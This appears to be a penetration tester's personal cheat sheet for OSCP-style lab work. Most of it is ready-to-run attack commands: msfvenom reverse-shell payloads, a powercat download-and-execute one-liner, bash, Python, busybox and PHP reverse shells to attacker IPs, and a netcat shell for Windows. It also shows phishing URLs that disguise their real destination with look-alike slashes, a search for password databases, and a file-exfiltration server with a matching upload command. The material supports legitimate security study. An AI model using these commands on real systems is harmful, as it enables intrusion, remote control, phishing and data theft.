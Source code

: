 ```yaml
---
layout: blank
pagetitle: Miscellaneous Notes
---
```


[https://johnstawinski.com/2022/10/09/oscp-2023-study-guide-new-exam-format/](https://johnstawinski.com/2022/10/09/oscp-2023-study-guide-new-exam-format/) [Ippsec’s videos](https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA) - vital at the beginning - show a bunch of HTB walkthroughs
- [https://ippsec.rocks/?#](https://ippsec.rocks/?#) - search up video on a topic [HackTheBox Active Directory track](https://app.hackthebox.com/tracks/Active-Directory-101) [TJ Null’s list of OSCP-like HTB machines](https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=1839402159)
- `for i in \$(seq 1 254); do nc -zv -w 1 {IP/24}.$i {port}; done`
    - We have nmap at home
    - For a more basic ping sweep:
        - `for /l %i in (1,1,254) do @ping {IP/24}.%i -w 1 -n 1`

RDP on kali: `xfreerdp3 /u:{username} /p:{password} /v:{IP} (optional)/d:{domain} (optional)/drive:shared,/home/kali/Downloads/`
- Dealing with powershell wrapping? Just put the entire output in a variable and do `${variable} | Out-GridView`

Fixing Memory Corruption Exploits
- If it needs to be compiled on windows, use mingw-w64
    - `sudo apt install mingw-w64`
    - `i686-w64-mingw32-gcc`
    - `x86_64-w64-mingw32-gcc adduser.c -o adduser.exe`
    - if compilation errors arise, just search them up
        - `-lws2_32` can be used for undefined references to _imp
        - `-l` can be used for statically link local libraries
- Can update shellcode in exploits with new shellcode using msfvenom
- `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f c`
- `msfvenom -p windows/x64/shell_reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f c`
- Encoding shellcode for binary for buffer overflow: `msfvenom -p linux/x86/shell_reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f raw > shellcode.bin`

Seems the WP admin creds are no longer admin/test, but rather admin/password

Phishing with fake slashes: `https://github.com∕praetorian-inc∕noseyparker∕releases∕download∕v0.23.0∕secret-noseyparker-v0.23.0-aarch64-apple-darwin.tar.gz@%74%69%6E%79%75%72%6C%2E%63%6F%6D/%79%63%38%78%61%66%74%32`

Another example: `https://www.amazon.com∕gp∕product∕B008A0GNA8pr=conplccinc=259d9f6c-ea4f-492b-a741-8ca016e53a70ts=abthh8sjiwjcbgqcpkynoq55p8khgag&dasin=B07774L6TT&plattr=mathplace=priceblockimp@%74%69%6E%79%75%72%6C%2E%63%6F%6D/%79%63%38%78%61%66%74%32?=96298722-d186-4e28-b5e9-2ca14f49d977`

Using SMTP with `swaks`
- To use an SMTP server, we need a user whose credentials we know on the domain `swaks --server {IP_with_SMTP} --body @{body_txt_file} -ap --from {user@domain} --to {target@domain} --auth-user {user@domain} --auth-password {password} --attach @{file_to_attach} --header "{header_text}"`

If error `no PostgreSQL user name specified in startup packet`, make sure to:
- add env variables:

```
export PGUSER=postgres
export PGDATABASE=postgres
```

Connecting to a device/switch from a mac using an ethernet cable:
- Make sure to manually set IP and interface via Network settings after connecting via USB

- `sudo apt install libpq-dev`
- `sudo apt-get install --reinstall postgresql-client`

Run powercat - `IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.220:8000/powercat.ps1');powercat -c 192.168.45.220 -p 4444 -e powershell`

Search for password database - `Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue`

To copy an executable, use `iwr -uri http://{kali_IP}/winPEASx64.exe -Outfile winPEAS.exe` instead of curl

Linux reverse shells:
- `bash -i >& /dev/tcp/{IP}/4444 0>&1`
- `busybox nc 10.10.10.10 1234 -e sh` or `busybox nc 10.10.10.10 1234 -e /bin/sh`
- `python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'`
- `<?php echo shell_exec('bash -i >& /dev/tcp/10.11.0.106/443 0>&1');?>`

Windows reverse shell
- Download/transfer netcat (nc.exe within `/usr/share/windows-resources/binaries/nc.exe`)
- `C:\Windows\Temp\nc.exe -e powershell.exe {kali_IP} 4444` Powershell reverse shell
- Can also just do it with powershell alone - [https://khaelkugler.com/scripts/powershell_revshell.py](https://khaelkugler.com/scripts/powershell_revshell.py)

Transfer files with xfreerdp3 - `xfreerdp3 /u:{u} /p:{p} /v:{IP} /drive:mydrive,{local_dir_path}`

Upgrading linux shell:

```
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
echo 'os.system('/bin/bash')'
/bin/sh -i
/bin/bash -i
perl -e 'exec "/bin/sh";'
    
```

Alternatively:
- `script /dev/null -c bash`
  - Then background the existing shell with CTRL Z
- On kali: `stty raw -echo; fg` (to continue the process)
- Type `reset` then set the terminal type to `screen`

Mount a Windows vhd:
- `sudo apt install libguestfs-tools`
- `guestmount --add {vhd_file} --inspector --ro -v /mnt/{dir_to_mount_to}`
  - `-ro` is readonly

Exfiltrate files off of a Windows system `sudo python3 app.py` (if [updog](https://github.com/sc0tfree/updog) isn't available)

```python group:a
#!/usr/bin/env python3
from http.server import SimpleHTTPRequestHandler, HTTPServer
import os

class FileUploadHTTPRequestHandler(SimpleHTTPRequestHandler):
    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length)

        # Get the filename from the POST headers if provided
        filename = self.headers.get('filename', 'upload.bin')

        # Save the uploaded file
        with open(filename, 'wb') as f:
            f.write(post_data)

        # Send a response back to the client
        self.send_response(200)
        self.end_headers()
        self.wfile.write(b'File uploaded successfully')

if __name__ == "__main__":
    server_address = ('0.0.0.0', 8080)  # Use any port you want
    httpd = HTTPServer(server_address, FileUploadHTTPRequestHandler)
    print(f"Serving HTTP on {server_address[0]} port {server_address[1]} (http://{server_address[0]}:{server_address[1]}/)")
    httpd.serve_forever()
```
```python group:a
from http.server import SimpleHTTPRequestHandler, HTTPServer
import os
```

`Invoke-WebRequest -Uri "http://{kali_IP}:8080/upload" -Method Post -InFile "{filename}" -Headers @{"filename"="{filename}"} -UseBasicParsing`